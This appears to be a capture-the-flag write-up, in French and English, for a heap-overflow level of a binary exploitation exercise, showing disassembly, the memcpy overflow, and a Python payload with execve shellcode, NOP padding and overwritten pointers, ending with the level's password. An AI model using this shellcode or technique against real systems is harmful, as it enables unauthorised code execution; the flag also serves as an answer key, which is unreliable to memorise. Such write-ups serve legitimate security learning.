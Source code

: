 ```
080485f4 <main>:
 80485f4:	55                   	push   ebp
 80485f5:	89 e5                	mov    ebp,esp
 80485f7:	53                   	push   ebx
 80485f8:	83 e4 f0             	and    esp,0xfffffff0
 80485fb:	83 ec 20             	sub    esp,0x20						; 32
 80485fe:	83 7d 08 01          	cmp    DWORD PTR [ebp+0x8],0x1
 8048602:	7f 0c                	jg     8048610 <main+0x1c>			; argc > 1
 8048604:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 804860b:	e8 e0 fe ff ff       	call   80484f0 <_exit@plt>			; exit(1)
 8048610:	c7 04 24 6c 00 00 00 	mov    DWORD PTR [esp],0x6c
 8048617:	e8 14 ff ff ff       	call   8048530 <_Znwj@plt>			; void first_call = _Znwj(108) // resolve GOT
 804861c:	89 c3                	mov    ebx,eax
 804861e:	c7 44 24 04 05 00 00 	mov    DWORD PTR [esp+0x4],0x5
 8048625:	00 
 8048626:	89 1c 24             	mov    DWORD PTR [esp],ebx
 8048629:	e8 c8 00 00 00       	call   80486f6 <_ZN1NC1Ei>			; _ZN1NC1Ei(first_call, 5)
 804862e:	89 5c 24 1c          	mov    DWORD PTR [esp+0x1c],ebx
 8048632:	c7 04 24 6c 00 00 00 	mov    DWORD PTR [esp],0x6c
 8048639:	e8 f2 fe ff ff       	call   8048530 <_Znwj@plt>			; void sec_call = _Znwj(108)
 804863e:	89 c3                	mov    ebx,eax
 8048640:	c7 44 24 04 06 00 00 	mov    DWORD PTR [esp+0x4],0x6
 8048647:	00 
 8048648:	89 1c 24             	mov    DWORD PTR [esp],ebx
 804864b:	e8 a6 00 00 00       	call   80486f6 <_ZN1NC1Ei>			; _ZN1NC1Ei(sec_call, 6)
 8048650:	89 5c 24 18          	mov    DWORD PTR [esp+0x18],ebx		; esp+0x18 = sec_call
 8048654:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 8048658:	89 44 24 14          	mov    DWORD PTR [esp+0x14],eax		; esp+0x14 = first_call
 804865c:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 8048660:	89 44 24 10          	mov    DWORD PTR [esp+0x10],eax		; esp+0x10 = sec_call
 8048664:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 8048667:	83 c0 04             	add    eax,0x4
 804866a:	8b 00                	mov    eax,DWORD PTR [eax]
 804866c:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax		; argv[1]
 8048670:	8b 44 24 14          	mov    eax,DWORD PTR [esp+0x14]
 8048674:	89 04 24             	mov    DWORD PTR [esp],eax			; esp = first_call
 8048677:	e8 92 00 00 00       	call   804870e <_ZN1N13setAnnotationEPc>	; _ZN1N13setAnnotationEPc(first_call, argv[1])
 804867c:	8b 44 24 10          	mov    eax,DWORD PTR [esp+0x10]
 8048680:	8b 00                	mov    eax,DWORD PTR [eax]
 8048682:	8b 10                	mov    edx,DWORD PTR [eax]					; edx = **sec_call
 8048684:	8b 44 24 14          	mov    eax,DWORD PTR [esp+0x14]
 8048688:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax				; esp+0x4 = first_call
 804868c:	8b 44 24 10          	mov    eax,DWORD PTR [esp+0x10]
 8048690:	89 04 24             	mov    DWORD PTR [esp],eax					; esp = sec_call
 8048693:	ff d2                	call   edx									; **sec_call(sec_call, first_call)
 8048695:	8b 5d fc             	mov    ebx,DWORD PTR [ebp-0x4]
 8048698:	c9                   	leave
 8048699:	c3                   	ret

080486f6 <_ZN1NC1Ei>:
80486f6:	55                   	push   ebp
80486f7:	89 e5                	mov    ebp,esp
80486f9:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]		; 1e arg?
80486fc:	c7 00 48 88 04 08    	mov    DWORD PTR [eax],0x8048848	; *eax = 0x8048848
8048702:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
8048705:	8b 55 0c             	mov    edx,DWORD PTR [ebp+0xc]		; 2e arg ?
8048708:	89 50 68             	mov    DWORD PTR [eax+0x68],edx		; *(eax + 104) = ebp+0xc
804870b:	5d                   	pop    ebp
804870c:	c3                   	ret

0804870e <_ZN1N13setAnnotationEPc>:
 804870e:	55                   	push   ebp
 804870f:	89 e5                	mov    ebp,esp
 8048711:	83 ec 18             	sub    esp,0x18						; 24
 8048714:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 8048717:	89 04 24             	mov    DWORD PTR [esp],eax
 804871a:	e8 01 fe ff ff       	call   8048520 <strlen@plt>
 804871f:	8b 55 08             	mov    edx,DWORD PTR [ebp+0x8]
 8048722:	83 c2 04             	add    edx,0x4
 8048725:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 8048729:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 804872c:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
 8048730:	89 14 24             	mov    DWORD PTR [esp],edx
 8048733:	e8 d8 fd ff ff       	call   8048510 <memcpy@plt>	; memcpy(arg[0], arg[1], strlen(arg[1]))
 8048738:	c9                   	leave
 8048739:	c3                   	ret
```

À la fin, on call `edx`, c'est probablement de là dont vient la vulnérabilité. La difficulté de l'exercice est de connaitre quelle est la fonction
derrière `_Znwj`.


```
08048530 <_Znwj@plt>:
 8048530:	ff 25 70 9b 04 08    	jmp    DWORD PTR ds:0x8049b70
 8048536:	68 40 00 00 00       	push   0x40
 804853b:	e9 60 ff ff ff       	jmp    80484a0 <_init+0x3c>
```

Il faut que le résultat de `sec_call` soit égal à une adresse avec des instructions.

to get the `_Znwj` function code, I looked at the `info proc map` result command in gdb, and saw that we have `/usr/lib/i386-linux-gnu/libstdc++.so.6.0.16` in the linker.

So, I ran the command `objdump -R /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16 | grep _Znwj`:
`000dd980 R_386_JUMP_SLOT   _Znwj`
`_Znwj is aka "operator new". `

Quand bien même le code soit écrit en c++, je vais essayer de le reconstituer en c.

Grâce à `gdb`, je sais que la première allocation est effectuée à `0x804a008` et la seconde à `0x804a078`.
Par conséquent, grâce au heap buffer overflow du `memcpy` de `argv[1]`, on pourra écraser l'adresse contenu dans `0x804a078`
pour la faire pointer vers un pointeur qui pointera vers par exemple un shell code contenu dans la heap, puis l'exécutera.

Notre shellcode sera :
https://shell-storm.org/shellcode/files/shellcode-606.html

On devra par la suite écrire le padding de `NOP`, puis l'adresse du début du shellcode, et enfin récrire l'adresse de l'adresse du début du shellcode.

L'adresse où sera contenu l'opcode sera donc `0x804a00c` (4 octets après le début de l'adresse allouée).
Et le pointeur sur l'adresse contenant le début de l'opcode sera `0x0804a074` (soit 4 octets de moi que l'adresse de la deuxième allocation).

```py
payload = ("\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70" +
		"\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61" +
		"\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52" +
		"\x51\x53\x89\xe1\xcd\x80")
print(payload + "\x90" * (104 - len(payload)) + "\x0c\xa0\x04\x08" + "\x74\xa0\x04\x08")
```

Password: `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`
